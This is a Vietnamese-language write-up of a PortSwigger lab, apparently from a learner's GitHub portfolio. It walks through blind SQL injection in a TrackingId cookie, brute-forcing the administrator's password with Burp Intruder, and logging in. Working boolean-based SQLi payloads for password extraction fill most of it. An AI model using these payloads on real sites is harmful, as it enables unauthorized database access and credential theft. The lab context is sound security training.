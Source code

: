 # Write-up: Blind SQL injection with conditional responses

### Tổng quan
Ghi lại quá trình khai thác Blind SQLi để lấy mật khẩu của tài khoản `administrator` bằng cách kiểm tra phản hồi của web trong `Cookie TrackingId`.

### Mục tiêu
- Tìm mật khẩu của tài khoản `administrator`
- Đăng nhập thành công với vai trò `administrator`

### Công cụ sử dụng
- BurpSuite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `TrackingId` trong header `Cookie`
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND 1=1--
    ```
    - **Kết quả**: `Welcome back!` xuất hiện
    ![tồn tại](./images/exist.png)
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND 1=0--
    ```
    - **Kết quả**: `Welcome back!` không xuất hiện
    ![no exist](./images/no_exist.png)

    - **Kết quả**: xác nhận lỗ hổng Blind SQLi.

- Xác định sự tồn tại của bảng users và
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND (SELECT 'm' FROM users LIMIT 1)='m'-- 
    ```
    - **Kết quả**: `Welcome back!` xuất hiện, tồn tại bảng users
        ![users](./images/exist_users.png)

-  Xác định sự tồn tại của người dùng tên `administrator`
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND (SELECT username FROM users WHERE username='administrator')='administrator'--
    ```
    - **Kết quả**: `Welcome back!` xuất hiện, tồn tại `username` = `administrator`

2. **Tạo payload**
- Tạo payload và gửi qua Burp Intruder, xử dụng kỹ thuật bruteforce xác định độ dài mật khẩu
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')=§1§--
    ```
    - set payload như ảnh sau và được kết quả
      ![payload](./images/length.png)
    payload §1§ 1->20

- Tạo payload và gửi qua Burp Intruder, xử dụn kĩ thuật bruteforce để xác định mật khẩu
    ```
    TrackingId=kW0NAXq4I0XbQKuN' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§'--
    ```
    - payload `§1§` set giống với pyaload xác định độ dài mật khẩu
    - payload `§a§` set như ảnh dưới và ta được kết quả
    ![payload](./images/bf_password.png)
    - **Kết quả**: xác định được `password`:`0gd912zq4tck66kjrddm`
  
3. **Khai thác (Exploitation)**
- Đăng nhập tại `/login` với `administrator`:`0gd912zq4tck66kjrddm`
- **Kết quả**: Đăng nhập thành công, hoàn thành lab
    ![login](./images/login_success.png)

### Bài học rút ra
- Thành thạo khai thác blind SQL injection dựa trên phản hồi điều kiện.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.